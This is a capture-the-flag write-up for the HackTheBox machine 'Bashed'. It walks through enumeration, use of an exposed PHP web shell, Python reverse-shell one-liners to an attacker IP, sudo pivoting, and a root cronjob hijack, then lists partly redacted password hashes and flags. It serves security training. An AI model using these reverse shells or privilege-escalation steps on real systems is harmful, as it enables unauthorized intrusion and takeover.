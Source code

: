 [HackTheBox] Bashed
===============
date: 25/Jun/2020
summary: This is the summary for an awesome post.
tags: hackthebox, writeup

## Overview
![writeup.metadata.infocard](/static/files/posts_htb_bashed/infocard.png)

This is a writeup for HTB VM [Bashed](https://www.hackthebox.eu/home/machines/profile/118). Here's an overview of the `enumeration` → `exploitation` → `privilege escalation` process:

![writeup.overview.killchain](/static/files/posts_htb_bashed/killchain.png)

## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
```
# Nmap 7.80 scan initiated Fri May 29 19:04:11 2020 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /home/kali/toolbox/writeups/htb.bashed/results/10.10.10.68/scans/_quick_tcp_nmap.txt -oX /home/kali/toolbox/writeups/htb.bashed/results/10.10.10.68/scans/xml/_quick_tcp_nmap.xml 10.10.10.68
Nmap scan report for 10.10.10.68
Host is up, received user-set (0.32s latency).
Scanned at 2020-05-29 19:04:24 IST for 46s
Not shown: 999 closed ports
Reason: 999 conn-refused
PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 6AA5034A553DFA77C3B2C7B4C26CF870
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri May 29 19:05:10 2020 -- 1 IP address (1 host up) scanned in 59.85 seconds
```

2\. We see that the port `80/tcp` is the only open port on this machine. Let's run `gobuster` and find interesting directories on this web server:  
```
gobuster dir -u http://10.10.10.68:80/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e -k -l -s "200,204,301,302,307,403,500" -x "txt,html,php,asp,aspx,jsp" -z -o "/home/kali/toolbox/writeups/htb.bashed/results/10.10.10.68/scans/tcp_80_http_gobuster_dirbuster.txt"
```

3\. We find a few directories from `gobuster` scan and the `/dev` directory lists two interesting files: `phpbash.min.php` and `phpbash.php`  
```
$ cat results/10.10.10.68/scans/tcp_80_http_gobuster_dirbuster.txt 
  http://10.10.10.68:80/images (Status: 301) [Size: 311]
  http://10.10.10.68:80/index.html (Status: 200) [Size: 7742]
  http://10.10.10.68:80/about.html (Status: 200) [Size: 8190]
  http://10.10.10.68:80/contact.html (Status: 200) [Size: 7802]
  http://10.10.10.68:80/uploads (Status: 301) [Size: 312]
  http://10.10.10.68:80/php (Status: 301) [Size: 308]
  http://10.10.10.68:80/css (Status: 301) [Size: 308]
  http://10.10.10.68:80/dev (Status: 301) [Size: 308]
  http://10.10.10.68:80/js (Status: 301) [Size: 307]
  http://10.10.10.68:80/config.php (Status: 200) [Size: 0]
  http://10.10.10.68:80/fonts (Status: 301) [Size: 310]
  http://10.10.10.68:80/single.html (Status: 200) [Size: 7476]
```

![writeup.enumeration.steps.3.1](/static/files/posts_htb_bashed/screenshot03.png)  

![writeup.enumeration.steps.3.2](/static/files/posts_htb_bashed/screenshot01.png)  

4\. We find that [`phpbash`](https://github.com/Arrexel/phpbash) is a minimal web shell that can give us interactive access to the target machine.  

![writeup.enumeration.steps.4.1](/static/files/posts_htb_bashed/screenshot02.png)  

### Findings
#### Open Ports:
```
80/tcp  | http      | 2.4.18 ((Ubuntu))
```
#### Files
```
/dev/phpbash.min.php
/dev/phpbash.php
```

## Phase #2: Exploitation
1\. We visit the `/dev/phpbash.min.php` page and find the `phpbash` interactive web shell UI which enables command execution and further enumeration:  

![writeup.exploitation.steps.1.1](/static/files/posts_htb_bashed/screenshot05.png)  

2\. We use a Python reverse shell to obtain interactive access on this system:  
```
nc -nlvp 443
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.4",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![writeup.exploitation.steps.2.1](/static/files/posts_htb_bashed/screenshot06.png)  

## Phase #2.5: Post Exploitation
```
www-data@bashed> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@bashed>  
www-data@bashed> uname
Linux bashed 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
www-data@bashed>  
www-data@bashed> ifconfig
ens33   Link encap:Ethernet  HWaddr 00:50:56:b9:44:62  
        inet addr:10.10.10.68  Bcast:10.10.10.255  Mask:255.255.255.255
        inet6 addr: dead:beef::250:56ff:feb9:4462/64 Scope:Global
        inet6 addr: fe80::250:56ff:feb9:4462/64 Scope:Link
        UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
        RX packets:83524 errors:0 dropped:332 overruns:0 frame:0
        TX packets:78785 errors:0 dropped:0 overruns:0 carrier:0
        collisions:0 txqueuelen:1000 
        RX bytes:5305396 (5.3 MB)  TX bytes:8408691 (8.4 MB)

lo      Link encap:Local Loopback  
        inet addr:127.0.0.1  Mask:255.0.0.0
        inet6 addr: ::1/128 Scope:Host
        UP LOOPBACK RUNNING  MTU:65536  Metric:1
        RX packets:444689 errors:0 dropped:0 overruns:0 frame:0
        TX packets:444689 errors:0 dropped:0 overruns:0 carrier:0
        collisions:0 txqueuelen:1 
        RX bytes:32908196 (32.9 MB)  TX bytes:32908196 (32.9 MB)
www-data@bashed>  
www-data@bashed> users
root
arrexel
scriptmanager
```

## Phase #3: Privilege Escalation
1\. We find that the user `www-data` can run any command as user `scriptmanager` using `sudo`:  
```
sudo -l
sudo -u scriptmanager /bin/bash
```

![writeup.privesc.steps.1.1](/static/files/posts_htb_bashed/screenshot07.png)  

![writeup.privesc.steps.1.2](/static/files/posts_htb_bashed/screenshot10.png)  

2\. We find an interesting directory `/scripts` which has two files in it. One is a Python script `test.py` owned by user `scriptmanager` and other is `test.txt` owned by `root`. We use a script `CronJobCheckser.sh` and find that there's a `root` owned cronjob that runs the `test.py` script and which creates the `test.txt` file.  
```
ls -la /scripts
cat /scripts/test.py
```

![writeup.privesc.steps.2.1](/static/files/posts_htb_bashed/screenshot08.png)  

![writeup.privesc.steps.2.2](/static/files/posts_htb_bashed/screenshot09.png)  

![writeup.privesc.steps.2.3](/static/files/posts_htb_bashed/screenshot11.png)  

3\. We can now edit this file to execute a reverse shell that gives us elevated privileges on the system:  
```
nc -nlvp 9999
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.4",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' >>/scripts/test.py
```

![writeup.privesc.steps.3.1](/static/files/posts_htb_bashed/screenshot12.png)  

4\. As soon as the cronjob runs, we get the elevated shell and can now view the `root.txt` flag file:  
```
cat /root/root.txt
```

![writeup.privesc.steps.4.1](/static/files/posts_htb_bashed/screenshot13.png)  

![writeup.privesc.steps.4.2](/static/files/posts_htb_bashed/screenshot14.png)  

## Learning/Recommendation
* Production web server instances should not host developement tools like a PHP web shell. It allowed the attacker to gain interactive access of the target system.
* Service users should not be allowed to use `sudo`. This misconfiguration enabled attacker to switch to a more privileged user account.
* Cronjob files should be owned by the same user that will be allowed to run it. The attacker was able to use this misconfiguration to modify a file they own and get it executed by `root` user.

## Loot
### Hashes
```
arrexel:$1$mDpVXKQV$o6HkBjhl/e.S.bV96tMm6.:17504:............
scriptmanager:$6$WahhM57B$rOHkWDRQpds96uWXkRCzA6b5L3wOorpe4uwn5U32yKRsMWDwKAm.RF6T81Ki/MOyo.dJ0B8Xm5/wOrLk.........................
```
### Flags
```
/home/arrexel/user.txt: 2c281f318555dbc1b8569...........
/root/root.txt: cc4f0afe3a1026d402ba10..........
```

## References
* <https://www.hackthebox.eu/home/machines/profile/118>  
* <https://medium.com/@ranakhalil101/hack-the-box-bashed-writup-a8e51a2914c2>  
* <https://0xdf.gitlab.io/2018/04/29/htb-bashed.html>  
